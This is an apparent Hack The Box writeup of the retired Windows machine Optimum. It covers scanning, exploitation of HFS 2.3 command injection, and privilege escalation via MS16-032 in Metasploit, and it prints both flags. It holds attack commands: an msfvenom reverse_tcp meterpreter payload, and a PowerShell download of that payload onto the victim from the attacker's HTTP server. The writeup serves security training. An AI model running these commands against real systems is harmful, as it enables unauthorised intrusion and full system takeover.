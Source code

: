 ```yaml
---
title: HTB Machine Optimum May 2025
published: 2025-05-16
description: Writeup of HTB Optimum Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, HttpFileServer, RCE, MS16-032]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning
## Rustscan

```bash
rustscan -a 10.10.10.8 -r 1-1000 -b 100 
```

![Pasted image 20250516151149.png](images/Pasted_image_20250516151149.png)
## Nmap

```bash
# Nmap 7.94SVN scan initiated Fri May 16 15:10:08 2025 as: nmap -sC -sV -T5 -oA nmap/initials 10.10.10.8
Nmap scan report for 10.10.10.8 (10.10.10.8)
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 16 15:10:38 2025 -- 1 IP address (1 host up) scanned in 29.60 seconds
```

- The scan reveals only one open port: 80 (HTTP) running HttpFileServer (HFS) version 2.3.
- The target is confirmed to be a Windows machine.
- RustScan was used first for quick port discovery, followed by a detailed Nmap scan to identify services and versions.
- HFS (HTTP File Server) is a free web server specifically designed for file sharing, often used for quick setup without complex configuration.
# Enumeration

- After identifying the web application as HFS 2.3, I conducted research to find potential vulnerabilities.
- The application version information was clearly visible in the HTTP headers and page title.
- A search for exploits revealed multiple available options for this specific version.
- HFS 2.3 is known to have several critical vulnerabilities, including remote code execution issues through the search function and macro functionality.

## Searching Exploits Online

![Pasted image 20250516152058.png](images/Pasted_image_20250516152058.png)

- Found a suitable exploit on GitHub: https://github.com/thepedroalves/HFS-2.3-RCE-Exploit
- This exploit leverages a remote code execution vulnerability in HFS 2.3.
- The vulnerability exists because HFS fails to properly sanitize user input in search queries, allowing for command injection.
- This particular version (2.3) was released in 2014 and has not received security updates to patch these vulnerabilities.

![Pasted image 20250516152040.png](images/Pasted_image_20250516152040.png)

# Exploitation

## Initial Foot Hold

- The exploit was executed successfully against the target.
- This provided an initial user-level shell on the system.
- The exploit works by sending a specially crafted HTTP request that contains a command injection payload.
- When the server processes this request, it executes our commands with the privileges of the user running the HFS service.

![Pasted image 20250516152238.png](images/Pasted_image_20250516152238.png)
![Pasted image 20250516152251.png](images/Pasted_image_20250516152251.png)

- Initial reconnaissance showed the user context was "kostas", a standard user account on the system.
- The shell provides limited access but sufficient to begin internal enumeration and locate the user flag.
- User flag successfully retrieved:

```lua
ca03a3a501d204b062958bfa014f9e9f
```
- Now for post exploitation we need Metasploit's meterpreter shell so i have used this,

- Payload Creation

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f exe -o reverse.exe      
```

- Payload Delivery 

```bash
python -m http.server 8000     
```

![Pasted image 20250516162958.png](images/Pasted_image_20250516162958.png)

- Payload Download in Victim Machine:

```powershell
Invoke-WebRequest -Uri "http://10.10.16.10:8000/reverse.exe" -OutFile "reverse.exe"
```

![Pasted image 20250516163016.png](images/Pasted_image_20250516163016.png)

![Pasted image 20250516163545.png](images/Pasted_image_20250516163545.png)

# Post Exploitation
## Metasploit Post Exploitation Module 

- For privilege escalation, utilized Metasploit's local exploit suggester module to identify potential vectors.
- The module scans the target system for applicable vulnerabilities based on its configuration.
- This automated tool checks for missing patches, vulnerable services, and other common privilege escalation paths without manual enumeration.

```bash
use post/multi/recon/local_exploit_suggester 
set SESSION 5
run
```

![Pasted image 20250516160737.png](images/Pasted_image_20250516160737.png)

## Privilege Escalation

- While investigating the suggester results, performed additional research online for suitable Windows privilege escalation exploits.
- Identified MS16-032 (Secondary Logon Handle) privilege escalation vulnerability as a promising candidate.
- This vulnerability affects multiple Windows versions and has reliable public exploits available.
- The exploit targets a flaw in the Windows Secondary Logon Service that allows a standard user to elevate privileges to SYSTEM.

![Pasted image 20250516161259.png](images/Pasted_image_20250516161259.png)
![Pasted image 20250516161310.png](images/Pasted_image_20250516161310.png)

### MS16-032 Vulnerability Background

- MS16-032 (CVE-2016-0099) is a privilege escalation vulnerability in the Windows Secondary Logon Service.
- The vulnerability exists due to improper handling of security impersonation tokens in the Secondary Logon Service.
- When exploited, it allows a standard user to elevate privileges to SYSTEM by triggering a race condition in the handling of these tokens.
- Microsoft patched this vulnerability in March 2016, but many systems remain unpatched and vulnerable.
- This vulnerability is particularly effective because it works on multiple Windows versions (Windows 7-10, Server 2008-2012 R2) and has high reliability.

- Used the corresponding Metasploit module to exploit the vulnerability:

```bash
use windows/local/ms16_032_secondary_logon_handle_privesc
set session 5
set lhost 10.10.16.10
set lport 4545
run
```

![Pasted image 20250516160857.png](images/Pasted_image_20250516160857.png)
![Pasted image 20250516160915.png](images/Pasted_image_20250516160915.png)

- Privilege escalation was successful, providing SYSTEM-level access to the target.
- SYSTEM privileges represent the highest level of access on a Windows machine, equivalent to root access on Linux systems.
- With these elevated privileges, full control of the system was achieved, allowing access to all files and configuration settings.

![Pasted image 20250516161021.png](images/Pasted_image_20250516161021.png)
![Pasted image 20250516161034.png](images/Pasted_image_20250516161034.png)

- Root flag successfully retrieved:
```lua
8a532739186a7fb45ef0f03dec9b85fe
```

